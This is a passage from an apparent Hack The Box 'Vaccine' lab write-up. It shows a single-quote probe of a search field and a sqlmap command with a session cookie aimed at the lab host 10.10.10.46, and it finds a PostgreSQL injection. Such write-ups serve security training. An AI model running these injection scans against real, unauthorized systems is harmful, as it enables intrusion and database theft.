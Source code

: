 - Assuming this is a database loaded several cars
- Try to insert `'` in the search field and got this error

![1](/assets/images/htb/vaccine/9.png)

### <u>SQLmap</u>

- Here is the syntax. Sqlmap also needed cookie for this to work

```bash
sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=sunny' --cookie="PHPSESSID=q14pc524upvp0hspqoh1n5nq8p" --batch
```

![1](/assets/images/htb/vaccine/10.png)

- This server is using PostgreSQL database
- Sqlmap also found vulnerability can lead into injections

![1](/assets/images/htb/vaccine/11.png)
